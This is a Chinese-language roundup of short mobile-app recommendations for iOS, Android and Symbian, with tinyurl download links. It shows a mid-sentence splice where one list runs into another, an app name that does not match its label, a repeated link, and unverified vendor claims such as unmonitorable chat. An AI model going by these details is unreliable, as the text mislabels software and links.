简介：和谐动车v1.0主要提供上海至全国各地的往返动车信息，覆盖江浙等周边省市和全国一共31个省会城市的动车往返信息，您可以获得相关动车的车次、出站时间、到站时间、总用时、票价、最快车次和主要城市（目前为上海、南京、北京、杭州）的住宿信息等。

# 时尚家居

平台：iOS
简介：家，是世界上最温馨、充满幸福的地方。无论家的大小，它总是给人一种快乐的感觉。怎样装饰家？怎样让家有独特的风格？怎样充分利用空间？这些都是建造一个舒适的家时必须思考的问题。一个温馨而美丽的家需要用心来设计，用爱来装饰。是一款关于家居装饰指导的产品，目的在于为朋友们在装饰自己的爱家时提供一些参考和建议，让家看起来更温馨、更舒适。时尚家居告诉你按色彩运用、空间使用和家具摆放方面的内容，各个方面相互联系，从而让家的感觉更浓。

# 位置警报 Proxi

平台：iOS
简介：自从iOS支持后台运行之后，GPS类的位置警报软件焕发了新春。这款软件是用来帮助用户在外出时对于目标地点的范围进行监控和提醒，特别适用于乘车/船时（地铁就不太适用了，因为地铁中很难捕捉到GPS信号）。用户可以事先在软件中设定一个或多个目标地点，并设置各自的警报范围，启动监控之后，当你进入这些警报范围时，该软件就可以发出声音提醒你啦。这样你也就不会出现错过站点的情况了。

# 爱祝福

平台：Android
简介：爱祝福可以用简短的文字，通过送祝福的方式，在节日、重要纪念日、生日、日常的时候，给在远方的父母、异地而居的爱人、奔波各方的同学、最要好的朋友、生意来往的客户，送去一个简单的祝福。用爱温暖我们的亲情、爱情、友情。爱祝福客户端的功能亮点：内容海量、原创、时时更新涵盖节日、日常、结婚、生子、表白、康复、校园、商务、整蛊等，每天时时更新。也许内容不一定是最全的，但是保证是精心为你推荐的最新、最独特、最时新的内容。软件完全免费，这么好的产品居然还不收费，你仅需支付流量费用即可（包月的同学流量就是浮云了）。在WIFI环境下使用，真的是一分钱都不用花。

# 弹指聊天

平台：Android
简介：还在忐忑的等待回信？想要告白却又担心尴尬？弹指聊天全新实时语音版本华丽发布，独创GPRS语音实时传输及流量压缩技术，更省流量，马上用实时语音消息向Ta告白吧！弹指聊天可以实现语音信息的发送，前一秒你说话，后一秒他就能听到！此软件无需注册，消息与图片收发完全免费（但流量是要消耗一些的），帮助您节省日常短信和彩信费用！

# KK聊天

平台：Android
简介：KK聊天是一款的免费手机信息软件，像短信一样简单易用，随时随地实时收发，速度快。KK聊天主要使用移动互联网流量，但由于消耗少，在你已经有流量包月的情况下，其成本可以忽略不计。KK聊天更有加密传输数据功能，你的聊天不可能被监视。尤其在网络切换到WIFI时，你不需要担心聊天内容会被截取。纯粹地基于手机联系人，使用手机号作为用户标识，联系人就是聊天对象。即使用户更换手机还是同一个账号。

# 蚁信

平台：Symbian S60 第三版
简介：蚁信，一款功能超级强大的社交软件，不仅可以发文字、图片微博，还可以发语音微博，更可帮朋友圈子众多的您将微博同步到新浪、网易、搜狐。增强型短信killer功能可跨平台文字短信、彩信、语音信息随意发，想发多远就发多远，畅聊不花钱。随时随地发现周边好友，查看微博发自那里。或许蓦然回首，你会发现伊人就在灯火阑珊处……只要用了蚁信，您一定会推荐您的朋友使用，因为用的人越多，越好玩。

# 乐友

平台：Symbian S60 第三版、第五版
简介：还在用短信聊天吗？还在为找合适的祝福短信发愁吗？还在为换机后海量联系人发愁吗？现在只要有了乐友神马都不是问题。乐友为你提供：免费的短信群发聊天，海量的免费祝福短信，快速的号码同步备份。是不是很惊喜？那你太容易满足了！跨移动运营商、跨手机平台免费用短信聊天，并且接受方无需安装任何的软件，这才是真正带给你惊喜的地方。

# 兜兜友

平台：iOS
简介：兜兜友是基于GPS位置的全新交友软件，通过搜索周边用户、邂逅、分享图片、活动等信息让你随时随地结交新朋友，扩充自己的人脉关系，让你的朋友遍天下。此款软件最具价值的功能是真实的位置信息，独特的邂逅偶遇功能以及建立即时快速的聊天沟通环境，软件界面非常友善，摇摇你的手机，与邂逅的那个TA，一起体验心动的感觉吧！

# 手机公社

平台：iOS
简介：手机公社是基于iPhone平台的手机公社客户端，微博、文件、及时消息到达、超群等主要功能为一体，手机拍照即拍即传，随时随地同朋友分享身边的新鲜事。喜欢公社的你，赶快装上一个，开始随时随地的“社交”吧！此款软件支持CMNET、CMWAP、WIFI等各种类型接入，更有地理定位功能。

# 超频降频随心所欲

软件名称：超级兔子CPU超频大师
适用平台：Android
下载地址： http://tinyurl.com/3nc9ks4

手机很费电？跑3D游戏比较慢？当你的手机遇到类似问题时，对CPU稍加操作兴许就能解决了呢。超级兔子CPU超频大师是专门对Android设备中的CPU进行超频或降频的软件，通过加快CPU运作，你可以得到更快的速度，或者是降低CPU频率来节省电力。这款软件拥有Widget界面和Profile情景模式，方便你日常在不同场合来控制CPU的频率，在该软件的“情景模式”中，我们可以针对关闭屏幕、通话状态、电池电量低等不同的使用环境，自定义CPU在某个状态时的主频。比如通话时对CPU要求不高，我们完全可以将通话时的CPU最高主频设置在600MHz甚至更低，从而获得更持久的电池使用时间。

# 手机变心跳探测器

软件名称：心跳探测器
适用平台：Android
下载地址： http://tinyurl.com/3nrcq7y

你知道吗？我们的Android手机除了能打电话，还能作为心跳探测器！人体血液颜色是由血液中的含氧量决定的，而血液的颜色又会随氧含量的变化产生周期性的改变。当你的手指在手机摄像头前划过，“心跳探测器”就会观察血液颜色的变化然后做出较高精度的测量。软件安装运行后，把手指轻轻贴到摄像头前，如果环境够亮的话挡住整个摄像头都没关系，不是很亮的话可以留点空隙。然后把摄像头朝向光亮的地方，白天的话就朝向窗口，晚上就面向光源吧，总之哪里亮就朝哪里。屏幕上有一行“try to keep this square red colored”的提示，文字左边有一个小方框，当方块变为红色后等10秒，手机上就会显示出你的心跳速度。这个程序相对传统检测方式来说，非常节约时间而且可以随时使用。至于准确性吗，只供参考喽。

# 手机缓存清道夫

软件名称：CacheCleanerNG
适用平台：Android
下载地址： http://tinyurl.com/3m5qycu

现在SD卡可谓是便宜到白菜价，但再大的扩展容量也架不住Android手机粉丝不停尝试各类App，下载各种书籍。这些App应用运行后会产生缓存文件，如果长时间不清理，轻者会导致手机变慢，重者会使开启程序时出现失去响应的情况。在电脑上我们有诸如“ClearClean”这样的一键系统垃圾清理软件，那在Android应用中是否也有类似的软件呢，有兴趣的朋友可以尝试一下“CacheCleanerNG”（缓存清道夫）。这款软件安装后点击“CLEAR NOW”即可为我们清理系统“垃圾”了。同时通过设置软件会在每次开机时清理内存，省去了许多步骤，非常适合喜欢简单的同学。

# 手机上的抓拍利器

软件名称：Fast Burst Camera（快速连拍相机）
适用平台：Android
下载地址： http://tinyurl.com/3ewcn69

手机拍照虽然方便，但其防抖功能实在不怎么样。当你想抓拍某个场景时经常会因为抖动导致画面变虚。如果你想及时并清晰地记录下某个动人的画面，可以尝试一下“Fast Burst Camera”（快速连拍相机）。这款软件是Android系统上拍照速度最快的相机，每秒可以拍摄5到10张照片，按住拍照键即可开始连拍。支持闪光灯、对焦和变焦，拍照的快门声音还可以关闭。在使用软件连拍之前，记得先按菜单键进入“偏好”设置中，根据手机的配置调整分辨率和缓存大小。如果你手机的配置不够但还选择高分辨率，当无法满足连拍占用内存的需要时软件可能会崩溃退出哦。

# 维系好你的亲情

软件名称：Family Tree（家谱）
适用平台：Android
下载地址： http://tinyurl.com/3kp9euu

学习工作越来越忙，是不是很少有时间去串亲戚了呢？除了每年的春节，是不是都没时间与他们交流了呢？有人说，中国人最看重的就是家，但随着生活节奏的加快，我们与亲戚之间的关系却越来越疏远。亲戚圈是家谱网推出的国内第一个专注于家庭亲情的手机应用，利用这款软件我们可以方便地和家人分享照片和新鲜事，通过亲戚和亲戚的连接，可以发现你和更多人的亲戚关系，而亲戚们也会邀请他/她的亲戚加入，所以你的亲戚圈是会自动长大的。随着加入的人越来越多，你会重新找回小时候和住在同一胡同的亲戚们一起生活的感觉。

# 非诚勿扰的“吉他男”

软件名称：GuitarStudio（吉他工作室）
适用平台：iOS
下载地址： http://tinyurl.com/3z7o3qz

看过8月27日这期的《非诚勿扰》了吗？4号男嘉宾用iPhone上的吉他软件自弹自唱了一首小曲，受到了现场女嘉宾的一致好评。那么，他用的软件究竟是什么呢？是的，就是一款名为“GuitarStudio”的软件。运行后就好像有一把真的吉他摆在你的面前。这款软件拥有高度可玩性、易于使用的界面，让你爱不释手。就音质而言要比iPhone上其它软件好很多，而且琴弦间隔比较大，弹起来很方便。最重要的是，“GuitarStudio”的和弦顺序可以自己编辑，这是其他的软件所没有的。

# 用摄像头查单词

软件名称：有道词典
适用平台：iOS/Android/塞班下载地址：m.youdao.com

时时为自己的大脑充充电，在当今的职场是必不可少的。但每每遇到生僻英语资料总是要打开电子词典输入查找费个半天劲。如果你手头上有台iPhone不妨尝试一下网易开发的“有道词典”。这款软件可以通过iPhone的摄像头识别单词，可以为我们节省输入的麻烦随时随地进行查词。在iPhone上安装该软件并运行，点击“摄像头查词”进入摄像头查询界面后，只需要将上下箭头间的区域指向单词，界面下就会自动出现该单词的中文翻译。为了防止抖动引起的摄像头取词误差，可以点击“锁定单词”锁定单词，待阅读详细词义后再点击“解锁单词”即可重新开始查单词了。想看完整信息时可以点击“查看网络释义”按钮，此时软件会连接网络迅速下载服务器上的最新解释。

## 你的隐私保险箱

软件名称：ET私密锁
适用平台：塞班全系列
下载地址：http://tinyurl.com/4y3cta8

谁的手机中没有一些隐私的数据？如果你的手机经常被朋友把玩，保不齐某些资料从此就曝光于天下了。如果你不想让类似的“杯具”发生，将这些资料加密绝对是一个好主意。ET私密锁是塞班平台上一款强力加密的工具，除了你能想到的影音文件、类似名片夹、通讯记录、短信、文件管理、程序管理、记事本、备忘录，哪怕是第三方软件和游戏也可以“锁”起来，充分做到物归我管，完全加密隐藏。

## 塞班变 Android

软件名称：QQ个人中心
适用平台：塞班3/塞班S60 V5
下载地址：http://msoft.qq.com/p/qc/

作为诺基亚手机的用户，你有没有羡慕过身边使用Android系统手机的朋友呢？作为一个网络达人，你是不是已经离不开与QQ有关的服务了呢？如果你符合上述两点，建议体验一下腾讯专为塞班触屏用户研发的一款集桌面管理、天气、QQ消息、QQ空间动态于一体的多功能手机软件：“QQ个人中心”。这款软件采用了类似Android系统的UI界面，捆绑了很多和QQ有关的服务，支持离线收发QQ消息、消息/邮件/空间一键直达等特色功能。需要注意的是，这个软件在运行中是会走流量的，如果你没有设置流量套餐就不要尝试了。

## 剩余电量能干嘛 得问我

软件名称：电池监测器Battery Monitor
适用平台：Android
下载地址：http://tinyurl.com/64hco57

此款软件可以实时观察电池历史记录，估算电池剩余电量用来做哪些工作还能支持的时间。采用图表曲线视图百分比数一目了然。Battery Monitor没有通知栏可以设定铃声、振动提醒满电、完成充电、电压超限、温度过高提醒。安装此款软件可以更有效的使用自己的手机。

## 锁屏也是玩艺术的机会

软件名称：灵巧锁屏 Agile lock
适用平台：Android
下载地址：http://tinyurl.com/6fmxhrk

还在羡慕Sense 3.0那绚丽的锁屏界面吗？现在，只要你的手机是Android系统，就能亲身体验那美丽的锁屏。安装Agile lock后，将下部的圆拖动到上方，然后松开手指即可解锁。本程序具有丰富的设置选项：字体设置、字体颜色、字体大小、背景设置、快捷方式设置等，一定能很好的满足用户的各种需求。不用担心安装锁屏软件会和系统锁屏重叠，真遇到了双锁屏问题、Home键问题，或者关于音量键点亮屏幕的问题，还可以通过使用“修复双锁屏问题”设置项来解决，在系统软件中实属贴心。

## 桌面美化我做主

软件名称：桌面管家 Zeam Launcher
适用平台：Android
下载地址：http://tinyurl.com/5t5fcsd

Zeam Launcher功能上比较简单，Zeam Launcher的弹性滑动效果很华丽，耗费相应的一点性能还是值得的。在桌面的工具可以实现滚动工具栏的效果（支持1~7个桌面），在操作上可以自定义手势（上滑、下滑、双击、Home键），它的垃圾筒很有特点，拖动图标到回收站并不放手可以卸载程序，很像Windows的操作。它也支持Dock两边的程序替换，而且可以隐藏手机的通知栏，全屏幕显示，适用于所有Rom版本。

## 网络小说塔读找

软件名称：塔读 TaDu
适用平台：Android
下载地址：http://tinyurl.com/69ygjpv

在地铁公交车上拿出手机读小说的人越来越多了，每次都到电脑上下载是不是很麻烦呢，如果有个在线的电子书系统岂不妙哉。塔读正是基于此类市场需求而应运而生的。进入软件主界面，会发现功能区分为首页、书库、排行以及书评四大部分，非常容易上手。右下方的切换功能可以轻松切换到下一个功能版块，很人性化。点击开始阅读，黑底蓝字清晰可见。软件左下角的菜单功能是阅读控制的核心，共有开画笔、添加书签、查看、全屏、跳转、设置6大项常用功能。开画笔功能是塔读的亮点之一，开启后能够在屏幕上复制任意文字，也可以通过短信发送给朋友们，用户在阅读中发现一段非常精彩的文字时，也可及时与好友分享。此款软件支持快速进入，无论想看书籍的哪个部分，都可以轻松找到相关的属性。随你怎么看。比较贴心功能是，章节预存让你即便没有记住上次阅读的地方，也不用担心。而且喜欢连载的朋友更能一目了然的了解书籍更新的情况。

## 手机变成监视器

软件名称：WiFi手机摄像头 Camera WiFi LiveStream
适用平台：Android
下载地址：http://tinyurl.com/6jzka9p

WiFi手机摄像头Camera WiFi LiveStream能够把手机变成一个摄像机，然后在电脑上用浏览器通过WiFi来实时观看。这款WiFi手机摄像头功能很强大，在PC端不需要安装程序，直接浏览器里看，完全可以把手机做成一个监控器，试想我们不在的时候想要监督弟弟妹妹学习，有了它就可以事半功倍。不过他可不免费哦，市场售价4.72美金。

## 照相就变脸

软件名称：梦幻摄像头 Demon Cam
适用平台：iOS
下载地址：http://tinyurl.com/5rj3ncz

这是一款视频处理软件，你可以录制你个人的表情短片然后使用Demon Cam软件来进行傻瓜式加工处理后，让它恐怖和搞怪起来！制作的方法也很简单，录制视频，调整视频时间，然后移动特效的位置，生成就可以了！不过在分享你的恐怖搞怪视频给朋友们时，请确认对方心脏能顶得住！当然，拍摄的视频不仅仅限于表情，可以拍摄任何场景，选择合适的特效来进行加工！虽然这个是iPhone应用，不过小编装在自己的iPad上面，效果也很不错，不知道开发商会不会更新成通用版，又或者单独出iPad版！

## iPhone 变成记事本

软件名称：手写记事3 FastFinga 3
适用平台：iOS
下载地址：http://tinyurl.com/63wh2b4

记得国内有一款平板号称原笔记记录，现在iPhone也可以了。这是一款梦寐以求的手写笔记软件，输入速度很快，笔触流畅，能够支持长时间速记活动。书写范围大，拥有自动保存功能，支持撤销，不管你书写的是什么文字都能像图片一样保存下来，是一款不可多得的好软件，平时使用率也很高，推荐给琐事繁多或马大哈的同学。

## 不要做过一次打折

软件名称：折扣行
适用平台：iOS
下载地址：http://tinyurl.com/63b64sh

如今互联网时代，买东西都讲究网上货比三家，团购啊秒杀啊就是此类光荣代表，让用户得到实惠。但打折类的实时查询软件还不多见，“折扣行”为我们找到了解决方案。“折扣行”为用户提供热门折扣券下载，包括麦当劳、DQ、汉堡王、真功夫等，无需付钱与打印，随时下载即刻使用，尽享移动优惠的便利。此外我们还为用户提供了折扣的提醒、折扣比较、好友评论分享等服务。有了“折扣行”，我们不用再事先准备打印的优惠券，每次只要拿出手机即可实时查询。（注：目前开放了北京、上海、杭州、广州、深圳、南京、重庆等地，其他各大城市近期即将开通）

## 手机下载无损音乐更方便

软件名称：多米音乐
适用平台：Symbian S60 V5
下载地址：http://tinyurl.com/5wjhsu8

多米音乐是一款集本地音乐播放、在线音乐播放、歌曲搜索、歌曲下载等多功能于一体的完全免费的手机音乐软件。多米支持桌面歌词和均衡器，MV的播放还新添加了“画面控制”和“色彩调节”，画面控制可以调节画面的比例、位置、大小，色彩调节可以根据自己的喜好调节画面的亮度、对比度、饱和度、色相。新增的功能使得节目在播放的时候更加出彩。支持多种音乐格式及FLAC无损格式播放，完美的播放音质、华丽的界面、简洁的操作、个性化的元素以及多米首创的与电脑端多米同步歌曲列表的功能，让你无论是在家中还是户外，无需数据线，轻松管理和播放音乐、实现好音乐自然来（本软件支持WIFI）。

## 实时更新看报纸

软件名称：光明云媒
适用平台：Symbian S60 V3
下载地址：http://tinyurl.com/6kd4wck

我们平时阅读手机报是否想过有一天所有的纸媒体都会过渡到显示屏上？对于各大报纸而言这一天也许还很遥远，但光明云媒是一个开端。光明云媒是光明日报推出的一款免费新闻阅读应用软件，方便在公交或地铁上随时阅读新闻讯息。目前，光明云媒每天1期，每期8版涉及各个门类几十种新闻为我们闲暇时提供了固定可靠的消息来源，就笔者使用感受，其新闻更新速度毫不亚于正规报纸。还可以像微博一样进行评论、转发和收藏，实在是消磨时间的健康利器。

## 给手机里每个好友一个大头贴

软件名称：大头贴
适用平台：Symbian S60 V3
下载地址：http://tinyurl.com/64r5bca

还在为通讯录联系人手动添加头像吗？安装大头贴，就能帮你的联系人自动拥有头像！大头贴是一款简单易用的通讯录头像同步工具。安装后，好友只需登陆网站datoutie.com或通过大头贴客户端为他们自己的手机号设置一个头像，你的通讯录上就能立刻同步显示好友的最新头像。也可通过同样方式为你自己的手机号设置头像，好友安装大头贴后即可同步到你的最新头像。

## 手机上的 PS

软件名称：抠图大师（TouchRetouch）
适用平台：iOS/Android
http://tinyurl.com/42qmynp

外出旅游时，用手机抓拍美景时镜头内突然闯入了其他人的身影，好端端的一幅美景就这样被“糟蹋”了。遇到这种情况时，绝大多数同学都会等回家后用电脑将图像中那意外的“客人”PS掉。其实，类似这种将照片、图像中部分内容清除的操作在手机上就能完成，抠图大师（TouchRetouch）就提供了既快捷又简便的照片编辑功能。在该软件中打开需要处理的照片或图像，用手指选择画笔或是套索工具，圈涂你不喜欢的镜头内容，然后点击“执行”，就大功告成了。通过TouchRetouch，你还能把电线从壮丽的景色中删除，取下建筑物上的横幅，让某人消失，或是消除其他瑕疵，至于效果，就看涂抹部分内容的复杂程度了，一般来说还是可以接受的。此外，你甚至可以用TouchRetouch来搞一些小恶作剧，比如夺走你哥哥的自行车，使他漂浮在半空中，你可删去人物下方的支撑物使他看起来在飞行，在跳跃或在做怪姿。

### 手机“百宝囊”

软件名称：物理测量工具 (Smart Tools)
适用平台：Android
http://tinyurl.com/3mc86z2

Android手机就是智能，能当尺子，水平仪，指南针，又能侦测音量分贝，诸多的功能可以为我们节省许多购买真实尺子等物品的开销，如果你经常用到上述的小功能，这回不必再一个一个安装相关的小工具软件了，在“物理测量工具”这么一款软件内就涵盖了长度，角度，罗盘，音量分贝，震级等14种工具，运行后从菜单中就能方便地调用出这些功能，真可谓一软在手，诸事不愁。

### 另类防盗软件

软件名称：WiFi解锁器 (Unlock With WiFi)
适用平台：Android
http://tinyurl.com/3lm8zm9

不希望别人用你的手机？感觉设置密码的方法太低级？没关系，在这里笔者向大家推荐一款“最潮”的防盗软件，利用WiFi实现手机的解锁，WiFi解锁器可以将任意的WiFi网络设置为给手机解锁的“钥匙”。比如，我们可以把家里的网络添加到设置，当你回到家手机侦测并连接到家里的WiFi网络后会自动解锁；当我们外出离开该网络时手机将会自动加锁。如果有人窃取你的手机，他也只能把它带到你家来解锁了！由此可以再引申出一种用法：在公司或宿舍用笔记本自建WiFi热点（网上有相关教程）并将其设定为手机的WiFi锁，当你外出又不方便携带手机时，可以暂时关闭刚才建立的热点，这样手机也会自动加锁（别人无法查看手机），等你回来后再开启热点，手机又能自动解锁了。

### 你也是“柯南”

软件名称：最佳变声 (Best Voice Changer)
适用平台：Android
http://tinyurl.com/3cko9dm

《名侦探柯南》中，柯南用博士发明的蝴蝶结变声器可以模拟不同人物的声音，着实让还是孩童时代的笔者羡慕不已。如今，在Android平台上，用一款软件就能实现类似蝴蝶结变声器的变声效果，而且功能更强大，除了可以将你的声音改为花栗鼠，机器人，儿童和喊话器等以外，还能添加类似机场，战场，人群中，街道和飞机等背景音效，一个人就能打造出诸如战场中混乱的对话场面，简单有趣。需要注意的是，这款软件还无法改变语音通话过程中的声音，只能保存为录音格式的文件，供你和别人分享。

### 让手机续航时间更持久

软件名称：点心省电
适用平台：Android
http://tinyurl.com/3hmrvmd

Android系统最让人头痛的就是费电，总会自己启动大量的后台应用，即便你查杀后有些程序仍会固执地再度“偷偷”启动，电池再大也禁不起这番折腾。如果你想让手机的续航时间更持久，建议体验一下由李开复创新工场开发的“点心省电”软件，与Android平台其它类似软件相比，点心省电在桌面可以生成一个更美观的监控插件，详细记录手机中每款软件的耗电情况，可以一键优化，清理后台耗电应用，并支持电池的校准功能，从功能丰富，兼容性和稳定性的角度来看都是非常出色的。

### 让你轻松装软件

软件名称：自动安装 (AutoInstaller)
适用平台：S60 V3/V5, Symbian^3
http://tinyurl.com/3znx4my

当你新买了一部诺基亚手机，对系统进行了升级，或是恢复默认系统设置后，是不是需要重新安装第三方软件呢？平常用的软件越多，此时越是纠结，一个一个安装费时又费力。而“自动安装”则是一款可以帮你自动安装软件的程序，将常用的程序拷贝在“E:thinkchangeC”目录内（如果没有请自己建立，想安装在E盘就拷贝在“E:thinkchangeE”），运行该软件并点击“一键安装”即可，软件需要签名，如果无法运行请安装PY平台后再试。

### 找歌神器

软件名称：音乐雷达 (Shazam)
适用平台：S60 V5, Symbian^3
http://tinyurl.com/3ex8vno

当你在收听FM，逛商场，街边遛弯时，有没有听到过非常好听，却又不知道名称的歌曲？每当出现这种情况，往往只能等回到家，根据记忆中的歌词来搜索，如果你连歌词都没记住，基本也就无望得知歌曲的名称了。此时，如果你手机上装有“音乐雷达”，在接入网络（尽量使用WIFI）时运行该软件，将手机靠近音乐源，大约10秒过后软件就能将歌曲的名称，演唱者，歌词等信息一一列举出来，非常Easy！需要注意的是，运行新版本“音乐雷达”还需安装OT平台，下载地址：http://soft.shouji.com.cn/down/20162. html，除了塞班，Shazam还有iOS和Android的版本，其它系统手机的同学可以百度一下搜索不同平台版本的下载。

### 精打细算过日子

软件名称：挖财
适用平台：iOS
http://tinyurl.com/3pw9a7h

在物价飞涨，唯独工资没动静的今天，如果你没能学会精打细算，口袋里的钱说不定哪天就全部清空了呢。不会算计？懒得记账？没关系，IOS平台的“挖财”软件正好可以帮到你。作为一款手机记账软件，挖财从界面设计到功能的选取，以及统计图表，账务搜索，免费数据备份等功能都非常符合国内用户的使用习惯，最新版本的软件还支持信息提醒以及自动备份，方便用户保护数据，防止记账数据丢失。

### 全能播放器

软件名称：RushPlayer 1.2.0
适用平台：iOS
http://tinyurl.com/43uu6xu

都说iPhone不支持RMVB，FLV等格式视频的播放，那是因为你没有选对一款好用的第三方播放软件，而RushPlayer最新的1.2.0版无疑是iOS平台上最强大的全能播放器之一，在iPhone 4上可以流畅播放720P甚至1080P格式的影片！新版本加入了文件夹加密功能，能保护个人隐私，对srt外挂字幕支持得更好，如果在播放超过720P视频出现卡顿的情况，请在设置中选择“流畅优先”即可。

### 无线好不好用 问我就知道

软件名称：WiFi分析仪
适用平台：Android
http://tinyurl.com/632e514

不知道你遇到过这种情况吗，在一个提供免费WiFi的场所（例如快餐厅），无线网络不是连不上就是连上没反应，一气之下还是用自己的3G了……其实，反应无线网络质量的因素除了我们熟知的信号强度，信道的繁忙程度也是关键之一，本软件名叫WiFi分析仪，名副其实的可以显示用户周围的WiFi通道占用情况，以曲线图表的形式清楚明了地反应WiFi的信号质量，帮助用户为自己的无线设备选择一个相对空闲的通道以提高连接质量。怎么样，赶快下载试试吧。

### 装上这个 手机变有声电子书

软件名称：善听听书
适用平台：Android
http://tinyurl.com/62oss8n

大屏幕结合各种阅读软件把手机变成了电子书，但很多场合例如颠簸的公交车上逐字逐句地盯着屏幕是很累的；躺在床上阅读也不是什么好习惯，我们可怜的眼睛在超负荷工作。这次推荐一款叫做“善听听书”的软件，包括有声读物的上百部资源，并且资源更新速度很快，只要点选要听的节目就可以用耳朵来阅读，和电子书相似，善听听书可以随时停止并自动记录断点，以便下一次自动续听，如果你对单口相声，评书，百家讲坛这类形式的栏目不是很反感，那么此款软件值得一试。

### 高动态照片手机也能拍

软件名称：专业高动态范围相机
适用平台：Android
http://tinyurl.com/6fmxhrk

你是不是觉得手机拍出来的照片颜色不够饱和？有一款比较专业的摄像头增强软件——Pro HDR Camera（专业高动态范围相机），通过这款软件，你能够让你的Android设备的摄像头也能拍摄出具有高动态范围效果的照片，软件打开之后就可以轻松上手，没有任何繁琐设置，简单来说拍出的照片可以亮的部分更加明快，暗的部分更加深沉，一张照片亮暗部的细节都比之前明显了，不过具体情况还要看你的手机的拍照能力了。

### 还在用手电筒 你out啦

软件名称：闪光手电筒
适用平台：Android
http://android.d.cn/software/5484.html

手机的随身便携性不用多解释，可有些时候需要照明，手机屏幕的亮度离照明还差很远，此款软件不用多加解释，是一款简单的手电筒工具，能实现手机屏幕或闪光灯照明，屏幕模式可选择屏幕颜色作为信号灯使用，闪光灯可以调节亮度等级完全取代手电筒，要注意手电全开耗电也是蹭蹭的……

### 生活即时问答 虫洞帮你忙

软件名称：虫洞问答
适用平台：Android
http://tinyurl.com/3kbodmq

路线查询的12580相比一般人都用过吧，与之类似，“虫洞”是首款移动生活即时问答、查询软件，生活、学习遇到问题可以向众多喜欢知识、热爱分享的朋友求助，最快、最好帮您解决问题！虫洞的优势是云查询服务，能够一键查询快递、公交、翻译、火车等众多实用服务，精准的定位、图片和投票功能，让你生活轻松无忧，最重要它不会扣掉宝贵的话费！小编测试了一些真的很有效，问的各种生活日常问题都能3分钟内得到答案！

### 声控相机 拍照好帮手

软件名称：声控相机 Say Cheese Camera
适用平台：Android
http://tinyurl.com/4yhdrst

用惯了按键式拍摄的朋友看到此款软件可能会眼前一亮，Say Cheese Camera这款软件最大的特点是可以通过声音来控制拍摄，除了常规的按键式还有语音控制相机拍摄以及私密模式，可以自定义触发快门的声音（语音），野外想要自拍或是远距离拍摄都可以得到应用，注意不要偷拍哦！

### 温度多少我来告诉你

软件名称：摄氏度 Celsius
适用平台：iOS
http://tinyurl.com/63dzb8s

这是一款IOS设备的天气预报软件，与同类软件不同的是，摄氏度 Celsius不用打开去看，在屏幕图标上就可以标注出实时的体感温度，相当便捷，自动## 3G 流量压缩器 Onavo

平台：iOS
简介：Onavo是一款免费的流量压缩应用，而且在压缩数据流量的同时还不会限制网速。装上该应用后，用户不需要再有任何操作，因为该应用会完全在后台运行，并能在数据抵达手机前完成压缩从而节省流量。这款应用可以在你的iPhone中添加一套设置文件，给你的互联网传输数据添加一道云端压缩过程，使流量占用大幅减少。比如上网浏览网页，下载等等操作的流量，都会被远程服务器压缩，并传输到你的设备端。不过现在VoIP或流媒体缓冲等技术尚不支持此类压缩。

## 我的 iPhone 能演奏

### 软件名称：仿乐器软件 Ocarina
适用平台：iOS
http://tinyurl.com/69r5ydq
Ocarina是iOS平台上的一款十分有趣的仿乐器软件，通过iPhone屏幕的多点触控技术，可以在手机上演奏出相对复杂的乐曲。安装完后点击进入Ocarina，界面中央的四个黑点代表笛孔，按压不同的笛孔在吹奏的过程中会发出不同的音调；界面下方的正中央是一个类似于发射器的图标，在吹奏的过程中会向你外围泛出声波的效果，右下角的小箭头提醒用户应该朝箭头的位置吹；点击“发射器”可以调出隐藏界面切换键，从左向右依次为笛孔界面、分享界面、设置界面和帮助界面，并且能够通过网络第一时间分享正在演奏的乐曲。有演奏方面兴趣的同学不妨一试。

## 让 iPhone 轻松拍出 1200 万像素照片

### 软件名称：乐么乐么 LemeLeme
适用平台：iOS
http://tinyurl.com/6j94cgi
大家都知道iPhone 4的拍照能力是500万像素，就算是新推出的4S也仅升级到800万而已，若是安装了乐么相机，就可以轻松实现1200万像素的输出。乐么相机的原理实际是快速连拍、快速拼接，软件的操作很简单，没有以往拍照软件的繁琐设置，一键式快门让使用者可以忘记滤镜、忘记规则，无论坐卧行走，是iPhone上的“随意拍”！

## 还在买报纸 太浪费了

### 软件名称：联讯读报
适用平台：Symbian S60 V3
http://tinyurl.com/6924cuo
我们平时阅读报纸很容易将一些信息遗忘，等到要用时却说不具体。安装了联讯读报可以像原版一样的阅读报纸和期刊读物，并且可以浏览过往期刊。可以快速导航到想要看的新闻上边，就像我们浏览网页一样便捷。联讯读报软件本身比较智能，提供页面内容展现编辑的功能，可以自动侦测不同的手机性能及屏幕大小由服务器下发不同的数据显示格式，以达到最佳观看效果。

## 让手机变身移动 Office 利器

### 金山Office移动版
适用平台：Android
http://tinyurl.com/3pfobd4
以前Windows Mobile手机流行时，用其内置的Office软件可以方便地临时处理工作上的表格和文档，但在很多Android手机上，别说编辑Word文档了，就连编辑TXT文件的功能都没有。其实这和Android系统无关，只是手机厂商并没为手机预装相关的软件，而我们则可以借助“金山Office移动版”这款免费软件实现类似PC上Office的功能。这款软件可以查看和编辑doc/docx/wps/txt/xls/et/xsx等格式的文档，还能播放ppt/dps文档（暂时还不支持编辑功能，后续版本才提供支持），与Android平台的其它Office软件相比，“金山Office移动版”的体积较小，占用资源和运行速度更快。如果你临时外出时上司让你处理紧急报表，即便身边没有电脑，咱们也能在手机上完成任务了。

## 身边美食拍

### 软件名称：大头贴
适用平台：Symbian 3
http://tinyurl.com/42whz2c
今天吃什么，周末去哪逛街八成变成小年轻儿最热衷的话题了，对于这一点小编深有体会，每天吃着同样的饭菜，吃饭都快变成一种任务了，有木有？据说百度新推出了一款神奇的软件——身边美食拍分享社区，专门解决学生午餐和吃货们不知上哪吃饭、逛街的难题。传说中这款软件可以搜出“身边”的美食，并且还会附有评价和点评呢。

## 轻松梳理你的人脉网络

### 名片全能王 (CamCard)
适用平台：Android
http://tinyurl.com/3nmgdf3
对刚入职场的新人来说，与同事出席各种社交活动，扩充人脉资源自是必不可少的功课，而交换名片则是获取对方联系方式的最有效手段。但当你手上有海量名片后，如何将它们录入到手机的通讯录里就是考验你耐心和精力的时刻了。一个一个录入？你也太OUT了吧？现在手机都有支持自动对焦的摄像头，类似iOS、Android和塞班等智能系统中也都有通过摄像头识别名片的软件，就拿Android平台下的“名片全能王”来说，运行该软件并选择“拍摄名片”，将客户的名片平放在桌面上，用手机镜头准对其并拍照，稍等片刻软件就能自动识别出所拍照片中的文字和数字信息，并智能地将它们归类到通讯录中姓名、手机、地址等选项内，识别率还是相当出色的。接下来，你的工作就是给其它名片拍照了……

